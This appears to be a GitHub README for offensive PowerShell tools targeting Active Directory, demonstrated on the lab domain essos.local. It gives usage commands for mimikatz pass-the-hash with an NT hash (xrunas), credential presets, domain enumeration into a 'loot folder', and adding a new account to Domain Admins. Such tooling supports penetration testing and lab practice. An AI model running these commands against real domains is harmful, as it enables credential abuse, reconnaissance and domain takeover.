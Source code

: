 ## xrunas
Elementary script run runas or module pth mimikatz
### Usage
```powershell
xrunas -d essos.local -u khal.drogo -H 739120ebc4dd940310bc4bb5c9d37021
```
```powershell
xrunas -d essos.local -u khal.drogo -p horse
```
```powershell
xrunas -d essos.local -u khal.drogo -p horse -r powershell
```
```powershell
xrunas -d essos.local -u khal.drogo -H 739120ebc4dd940310bc4bb5c9d37021 -mpath "C:\Tools\mimikatz.exe"
```
### Help
```b1
-d -- domain
-u -- username
-p -- password
-H -- NT-hash
-m -- path to mimikatz (default:mimikatz.exe)
-r -- run program (default:pwsh)
```
![3](./images/3.png)
## New-DomainPreset
Elementary script change default parameters (-Server, -Credential) by `$PSDefaultParameterValues` for ActiveDirectory (RSAT) module and some another commandlets.
Add another modules or cmdlets possible in `utils.psm1`
Also, set global variable `$creds.`
Assume module ActiveDirectory is installed, else you can install with command:
```
Add-WindowsCapability -online -Name Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0
```
### Usage
```
New-DomainPreset -d essos.local -u daenerys.targaryen -p 'BurnThemAll!' -s meereen.essos.local -a
```
```
New-DomainPreset -d essos.local -u khal.drogo -p 'horse' -s meereen.essos.local -x
```
```
New-DomainPreset -l
```
```
New-DomainPreset -c 0
```
```
New-DomainPreset -f
```

### Help
```
-s [-Server]   Domain Controller IP or FQDN
-u [-UserName] Target domain account
-p [-Passwd]   Target password
-l [-List]     List history all presets used before
-c [-Choice]   Select preset used before
-f [-Flush]    Flush history all presets used before
-a [-Admin]    Mark new preset as most privileged
-x [-x]        Add PSDrive Active Directory (AD)
-h [-Help]     Print help message
```
![1](./images/1.png)

## Invoke-SimpleCollector
Collect some information about target domain and export to csv file for further export to Excel.
You can use it with `New-DomainPreset` or `xrunas`.
Expected, module ActiveDirectory installed, else you can install with command:
```
Add-WindowsCapability -online -Name Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0
```
Obtain information:
- user accounts;
- machine accounts;
- default domain policy;
- Fine-Grained password policies.

### Usage
```powershell
New-DomainPreset -d essos.local -u khal.drogo -p 'horse' -s meereen.essos.local

Invoke-SimpleCollector
```
```powershell
Invoke-SimpleCollector -Credential $creds -Server meereen.essos.local
```
### Help
```
-s [-Server]     Domain Controller IP or FQDN
-c [-Credential] Credential
-f [-Folder]     Loot folder
```
![2](./images/2.png)

## Add-DomainUser
Add new domain user and add him to target group.
You can use it with `New-DomainPreset` or `xrunas`.

### Usage
```powershell
New-DomainPreset -d essos.local -u daenerys.targaryen -p 'BurnThemAll!' -s meereen.essos.local

Add-DomainUser -u test_account -g "Domain Admins"
```
### Help
```
-u [-UserName]   New user
-p [-Passwd]     Password, generate by default
-g [-Groupname]  Group, if needed
-c [-Credential] Credential
-s [-Server]     Domain Controller IP or FQDN
```
![4](./images/4.png)